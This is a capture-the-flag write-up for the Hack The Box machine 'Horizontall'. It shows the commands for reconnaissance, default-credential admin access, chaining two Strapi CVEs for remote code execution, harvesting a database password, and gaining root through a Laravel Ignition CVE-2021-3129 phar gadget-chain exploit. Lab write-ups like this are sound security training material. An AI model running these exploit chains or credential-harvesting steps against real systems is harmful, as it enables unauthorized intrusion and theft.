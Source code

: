 > Author: **[wail99][author-profile]**

## Discovery

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

The webpage is dynamically generated, it's a huge heap of JS. So I switched to searching
for endpoints, in particular APIs:

```javascript
r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {
```

```bash
curl -i -s -k -X GET http://api-prod.horizontall.htb/reviews
# HTTP/1.1 200 OK
# Server: nginx/1.14.0 (Ubuntu)
# Date: Fri, 03 Sep 2021 15:42:49 GMT
# X-Powered-By: Strapi <strapi.io> <========== HERE
# [{"id":1,"name":"wail","description":"This is good service","stars":4,"created_at":"2021-05-29T13:23:38.000Z","updated_at":"2021-05-29T13:23:38.000Z"},{"id":2,"name":"doe","description":"i'm satisfied with the product","stars":5,"created_at":"2021-05-29T13:24:17.000Z","updated_at":"2021-05-29T13:24:17.000Z"},{"id":3,"name":"john","description":"create service with minimum price i hop i can buy more in the futur","stars":5,"created_at":"2021-05-29T13:25:26.000Z","updated_at":"2021-05-29T13:25:26.000Z"}]
```

The first website was completely frozen, we leave it for the Strapi API with
all the promising CVEs.

`admin/src/containers/InputModalStepperProvider/index.js` has a `/proxy?url=`
functionality which could be abused to route to internal IPs and access private
IPs available to the server.

A basic directory enumeration gives us:

```
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60]
/Reviews              (Status: 200) [Size: 507]
```

`http://api-prod.horizontall.htb/users` is forbidden, but the admin page is
accessible. Here I caught another break:

> admin:admin

```json
{
    "jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwNjcxMTE0LCJleHAiOjE2MzMyNjMxMTR9.VjOpD6TxXsOXyZ_HQGaEi6P_lZuwh7T_fIsm4bc4XX8",
    "user":{
        "username":"admin",
        "id":3,
        "email":"admin@horizontall.htb",
        "blocked":null,
        "isAdmin":true
    }
}
```

## Footfhold

This is certainly the handyword of another player since there's a [CVE on Strapi][strapi-cve-2019-18818]
to reset the password of anyone, without authentication.

Then [another CVE][article-strapi-cve-2019-19609] grants RCE by exploiting an insecure system call when
installing plugins.

So chaining the two actually gives RCE from scratch! Also there's a [great script][exploit-strapi-cves]
ready-made on Exploit DB.

With these, we land on the box as user strapi:

```bash
python exploits/cve-2019-18818.py http://api-prod.horizontall.htb
```

## Escalation

First of all, upload a ssh key for shellter.

### Get developer?

Just follow the trail:

```bash
grep -ria password . | tee pw.tmp
# ./config/environments/development/database.json:        "password": "#J!:F9Zt2u"
cat config/environments/development/database.json
# {
#   "defaultConnection": "default",
#   "connections": {
#     "default": {
#       "connector": "strapi-hook-bookshelf",
#       "settings": {
#         "client": "mysql",
#         "database": "strapi",
#         "host": "127.0.0.1",
#         "port": 3306,
#         "username": "developer",
#         "password": "#J!:F9Zt2u"
#       },
#       "options": {}
#     }
#   }
# }
mysql -h'127.0.0.1' -D'strapi' -u'developer' -p'#J!:F9Zt2u' -e'show tables;'
mysql -h'127.0.0.1' -D'strapi' -u'developer' -p'#J!:F9Zt2u' -e'select * from strapi_administrator;'
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
# | id | username | email                 | password                                                     | resetPasswordToken | blocked |
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
# |  3 | admin    | admin@horizontall.htb | $2a$10$svfqkU62mjQ5UwYlf2uFKO0ueTYJ61WJ5qS/.EbdLWsXVAXoMPcX6 | NULL               |    NULL |
# +----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
```

However cracking it requires some unquantified effort:

```bash
echo '$2a$10$svfqkU62mjQ5UwYlf2uFKO0ueTYJ61WJ5qS/.EbdLWsXVAXoMPcX6' > admin.hash
hashcat -a 0 -m 3200 -w 6 -S admin.hash /usr/share/wordlists/passwords/rockyou-75.txt
```

The later fails and the bruteforce on the full list takes too long. There must
be something else.

### Laravel ignition CVE

Let's inspect the network sockets:

```bash
ss -tap
# LISTEN    0    128    127.0.0.1:8000    0.0.0.0:*
```

The port 8000 looks like another webserver:

```bash
curl -i http://127.0.0.1:8000 | tee internal.html
#                     <div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
#                             Laravel v8 (PHP v7.4.18)
#                     </div>
```

![][strapi-version]

This version of Laravel is in debug mode by default which opens a path for
exploitation. As [cfreal][cfreal-blog] explains in the [corresponding article][article-laravel-cve-2021-3129],
the Ignition module allows to write to the log file and exploit a gadget chain
from there.

The author released a [script][exploit-laravel-cve-2021-3129] that works along his framework
[PHPGGC][phpggc]: ie I didn't need to read anything before getting root!

```bash
# ssh tunnel to access the remote server from the local port 8000
ssh -L 8000:127.0.0.1:8000 -i ../.ssh/id_rsa strapi@10.10.11.105
# gadget chain = payload
php -d'phar.readonly=0' /usr/share/phpggc/phpggc \
    --phar phar -o exploits/laravel-ignition-flag.phar \
    --fast-destruct monolog/rce1 system 'cat /root/root.txt'
# exploit
python exploits/laravel-ignition-rce.py http://localhost:8000 exploits/laravel-ignition-flag.phar
```

[author-profile]: https://app.hackthebox.eu/users/4005
[article-laravel-cve-2021-3129]: https://www.ambionics.io/blog/laravel-debug-rce
[article-strapi-cve-2019-19609]: https://bittherapy.net/post/strapi-framework-remote-code-execution/
[cfreal-blog]: https://cfreal.github.io/
[exploit-laravel-cve-2021-3129]: https://github.com/ambionics/laravel-exploits
[exploit-strapi-cves]: https://www.exploit-db.com/exploits/50239
[phpggc]: https://github.com/ambionics/phpggc
[strapi-cve-2019-18818]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818
[strapi-version]: images/strapi-version.png
